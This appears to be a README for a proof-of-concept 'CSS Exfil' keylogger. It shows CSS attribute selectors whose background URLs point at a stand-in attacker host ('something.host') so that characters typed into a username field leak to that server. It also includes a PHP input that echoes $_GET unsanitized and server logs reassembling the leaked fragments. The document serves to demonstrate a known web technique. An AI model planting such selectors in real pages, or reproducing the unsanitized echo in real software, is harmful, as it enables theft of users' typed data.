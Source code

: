 # The PoC-CSS Exfill Basic Keylogger
First of all i was developing bot stuff and i seen `attribute=value] [target=_blank]` in source code of website. This method stuck in my mind. Because we can get access all of element that has _blank attribute. 
Than i made a search about how can i demonstrate this selector.
For example:
	 #username[value="admin"]{
	 	background:url("https://something.host/");
	 }
It means i can put malicious code.  To explain further i can do it more usefull.
For example:
`         #username[value*="aa"]~#aa{background:url("https://something.host/aa");
`
` <input type="text" id="username" name="username" value="<?		php echo $_GET['username']; ?>" />
        <input id="form_submit" type="submit" value="submit"/>
        <a id="aa">`
		
When a user enters any string consisting of the letters like 'a' specific elements will be styled with a non-existent background image at a remote attacker URL. 

There are 3 conditions
--------------------------------------------------------------------------------
 1. Parsed data must be ready while page is rendered.
 2. We must have at least one CSS Selector.
 3. The element must have to CSS property which takes a URL, background, background-image and etc.
--------------------------------------------------------------------------------

## 1 USAGE

`http://127.0.0.1/css-exfilphp?username=abcab`  
Output will be:
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52588 [404]: GET /a_ - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52589 [404]: GET /ab - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52590 [404]: GET /ba - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52591 [404]: GET /_b - No such file or directory

------------


If we re-assemble this output:

------------
- a   		#a_
- b			#b_
- ab     		#ab
- aba 		#ba
- abab		#_b


